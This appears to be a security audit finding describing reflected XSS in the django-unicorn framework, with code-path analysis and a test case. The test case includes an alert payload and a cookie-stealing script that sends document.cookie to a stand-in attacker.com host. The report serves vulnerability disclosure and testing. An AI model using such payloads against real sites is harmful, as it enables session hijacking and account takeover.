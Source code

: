 - Reflected Cross-Site Scripting (XSS) through Unsanitized Component Properties

- Description:
    1. A threat actor crafts a malicious URL or manipulates input fields to inject a JavaScript payload into a django-unicorn component property.
    2. The django-unicorn framework, specifically the `syncInput` action parser, receives the user input from the request payload and uses the `set_property_value` function to directly update the component's property with this unsanitized value.
    3. When the component template is rendered, the injected JavaScript payload within the component property is included in the HTML response without proper sanitization.
    4. When a user views the page with the component, the injected JavaScript payload is executed in their browser, potentially leading to session hijacking, cookie theft, or other malicious actions.

- Impact:
    - Account Takeover: Attackers can steal session cookies or credentials, gaining unauthorized access to user accounts.
    - Data Theft: Sensitive information displayed on the page can be exfiltrated by the malicious script.
    - Defacement: The attacker can modify the content of the web page seen by the victim.
    - Redirection to Malicious Sites: Users can be redirected to phishing websites or sites hosting malware.

- Vulnerability Rank: High

- Currently Implemented Mitigations:
    - HTML encoding is applied by default to updated field values to prevent XSS attacks, as mentioned in `docs\source\views.md` under "Meta" -> "safe". This mitigation is applied in the backend during template rendering and response generation.

- Missing Mitigations:
    - Input sanitization on the server-side: There is no explicit input sanitization for user-provided data before it's stored in component properties or rendered. The framework relies on Django's template engine auto-escaping for general template rendering, but this might be bypassed by developers using `safe` or custom template logic. The provided code confirms that user input is directly assigned to component properties without sanitization in `django_unicorn\views\action_parsers\sync_input.py` and `django_unicorn\views\utils.py`.
    - Contextual output encoding: While HTML encoding is the default, the documentation does not explicitly detail context-aware encoding strategies (e.g., JavaScript encoding for `<script>` tags). Developers need guidance on ensuring context-appropriate encoding to prevent XSS in different scenarios.

- Preconditions:
    - A django-unicorn component is used in a Django template and renders user-controlled data from component properties.
    - No explicit sanitization is implemented in the component's Python code for user inputs before assigning them to component properties.
    - The developer might unknowingly use the `safe` meta attribute or template filters incorrectly, bypassing the default HTML encoding when rendering user input.

- Source Code Analysis:
    1. `django_unicorn\views\action_parsers\sync_input.py`: The `handle` function processes `syncInput` actions. It extracts `property_name` and `property_value` from the request payload.

    ```python
    def handle(component_request: ComponentRequest, component: UnicornView, payload: Dict):
        property_name = payload.get("name")
        property_value = payload.get("value")
        ...
        set_property_value(
            component, property_name, property_value, component_request.data, call_resolved_method=call_resolved_method
        )
    ```
    2. `django_unicorn\views\action_parsers\utils.py`: The `set_property_value` function is called to update the component's property. It directly sets the `property_value` to the component's attribute without any sanitization.

    ```python
    @timed
    def set_property_value(
        component: UnicornView,
        property_name: Optional[str],
        property_value: Any,
        data: Optional[Dict] = None,
        call_resolved_method=True,  # noqa: FBT002
    ) -> None:
        ...
        if hasattr(component_or_field, "_set_property"):
            # Can assume that `component_or_field` is a component
            component_or_field._set_property(
                property_name_part,
                property_value,
                call_updating_method=False,  # the updating method has already been called above
                call_updated_method=True,
                call_resolved_method=call_resolved_method,
            )
        else:
            setattr(component_or_field, property_name_part, property_value)
        ...
    ```
    3. `django_unicorn\components\unicorn_view.py`: The `_set_property` method in `UnicornView` also directly assigns the value to the component's property. While it calls `cast_attribute_value` for type conversion, it does not perform any sanitization.

    ```python
    def _set_property(
        self,
        name: str,
        value: Any,
        *,
        call_updating_method: bool = False,
        call_updated_method: bool = False,
        call_resolved_method: bool = False,
    ) -> None:
        # Get the correct value type by using the form if it is available
        data = self._attributes()

        value = cast_attribute_value(self, name, value)
        data[name] = value
        ...
        try:
            setattr(self, name, value)
        ...
    ```

    **Visualization:**

    ```
    User Input (Malicious Script) --> HTTP Request (unicorn:model update) --> Django Unicorn Backend --> sync_input.py --> set_property_value() --> Component Property (Unsanitized) --> Template Rendering --> HTML Response (XSS Payload) --> User Browser (Script Execution)
    ```

- Security Test Case:
    1. Create a django-unicorn component that displays a property bound to a text input using `unicorn:model`. For example, a component with a `message` property and template like:

        ```html
        <div>
          <input type="text" unicorn:model="message" id="message-input">
          <div id="message-display">{{ message }}</div>
        </div>
        ```

        ```python
        # components/xss_test.py
        from django_unicorn.components import UnicornView

        class XssTestView(UnicornView):
            message = ""
        ```

    2. Create a Django view and template that includes this component.

        ```html
        {% load unicorn %}
        <html>
        <head>
            {% unicorn_scripts %}
        </head>
        <body>
            {% csrf_token %}
            {% unicorn 'xss-test' %}
        </body>
        </html>
        ```

    3. Access the page in a browser.
    4. In the input field with `unicorn:model="message"`, enter a JavaScript payload like `<script>alert("XSS Vulnerability");</script>`.
    5. Observe if an alert box appears when you type or blur from the input field. If the alert box appears, it confirms that the JavaScript payload was executed, indicating an XSS vulnerability.
    6. To further verify, try a more impactful payload like stealing cookies: `<script>window.location='http://attacker.com/cookie_steal?cookie='+document.cookie;</script>`. Set up a simple HTTP listener on `attacker.com` to capture the stolen cookies.

- Vulnerability Rank Justification:
    - High rank is assigned because XSS vulnerabilities can lead to significant security breaches, including account takeover and data theft. The ease of exploitation is also high as it only requires injecting a malicious script through user inputs, which is a common attack vector. Although django-unicorn provides default HTML encoding during template rendering, the risk remains high due to potential developer misconfigurations (using `safe` incorrectly) and the lack of explicit input sanitization in the data handling logic within `sync_input.py`, `set_property_value` and `_set_property` functions. The provided files confirm the absence of input sanitization at the property update level.
